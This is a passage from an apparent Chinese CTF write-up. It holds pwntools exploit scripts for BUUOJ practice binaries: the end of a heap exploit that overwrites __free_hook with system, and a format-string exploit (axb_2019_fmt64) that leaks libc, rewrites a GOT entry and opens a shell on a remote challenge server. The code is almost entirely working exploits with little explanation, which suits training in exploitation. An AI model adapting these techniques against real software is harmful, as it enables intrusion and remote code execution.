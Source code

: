 ```python
add(12, 0x70, b'A' * 0x8 + p64(0x421) + b'\n')
delete(0)
add(13, 0x70, b'\n')
add(14, 0x40, b'\n')
add(15, 0x40, b'\x00')	# to main_arena + 96
__malloc_hook = heap_addr[15] - 0x70
base = __malloc_hook - libc.symbols['__malloc_hook']
log.info('libc base = ' + hex(base))
__free_hook = base + libc.symbols['__free_hook']
log.info('__free_hook = ' + hex(__free_hook))
system = base + libc.symbols['system']

delete(4)
delete(4)
add(16, 0x60, p64(__free_hook) + b'\n')
add(17, 0x60, b'\n')
add(18, 0x60, p64(system) + b'\n')
delete(2)
io.interactive()
```

# buu088-axb_2019_fmt64
和第85题神相似。
```python
from pwn import *
from LibcSearcher import *
context.log_level = 'debug'
context.arch = 'amd64'

# io = process('./axb_2019_fmt64')
io = remote('node4.buuoj.cn', 26942)
elf = ELF('./axb_2019_fmt64')

io.sendlineafter(b'Please tell me:', b'%9$s\x00\x00\x00\x00' + p64(elf.got['puts']))
io.recvuntil(b'Repeater:')
puts = u64(io.recv(6) + b'\x00\x00')
libc = LibcSearcher('puts', puts)
base = puts - libc.dump('puts')
system = base + libc.dump('system')
print(hex(base))
print(hex(system))

payload = fmtstr_payload(8, {elf.got['strlen']: system}, numbwritten=9)

io.sendlineafter(b'Please tell me:', payload)

# gdb.attach(io, 'b *0x4008d0')
io.sendline(b'||/bin/sh')
io.interactive()
```
